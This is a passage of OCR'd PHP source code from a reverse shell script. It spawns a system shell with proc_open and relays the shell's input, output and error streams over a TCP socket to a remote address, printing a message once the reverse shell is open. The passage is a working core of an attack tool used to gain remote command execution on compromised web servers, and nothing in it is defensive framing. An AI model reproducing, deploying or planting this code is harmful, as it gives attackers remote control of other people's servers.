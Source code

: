 ```
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
```